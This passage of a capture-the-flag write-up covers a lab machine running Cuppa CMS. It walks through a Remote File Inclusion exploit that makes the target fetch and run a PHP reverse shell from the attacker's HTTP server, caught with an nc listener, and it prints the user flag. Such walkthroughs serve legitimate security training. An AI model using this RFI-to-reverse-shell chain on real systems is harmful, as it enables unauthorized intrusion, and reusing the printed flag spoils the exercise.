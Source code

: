 Check the link: http://[IP]/45kra24zxs28v3yd/administrator/

We can see the **Cuppa cms framework** is used

# Cuppa cms vulnerability

Check the exploit db (exploit-db.com)

We can see this framework has a **Remote File Inclusion** vulnerability

**Answer**
###### Remote File Inclusion


**Question**
###### What is the user flag?

# Exploit this vulnerability
- First
	- Download and edit php-reverse-shell.php (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
	- Define your IP and Port

- Second
	- Open local server web from the directory where the reverse shell is located

```
sudo python3 -m http.server 
```

- Third
	- Start listener by using the port specified in the reverse shell
```
nc -nlvp [port]
```

- Fourth
	- From the exploit-db , you can see in the description how to proceed

```
[URL]/alerts/alertConfigField.php?urlConfig=[path to reverse shell]
```

- Fifth
    - You gain the access
	- Navigate to milesdyson home --> cd /home/milesdyson
	- find user.txt flag

**Answer**
###### 7ce5c2109a40f958099283600a9ae807

# Privilege escalation

We cannot access root information with milesdyson account.
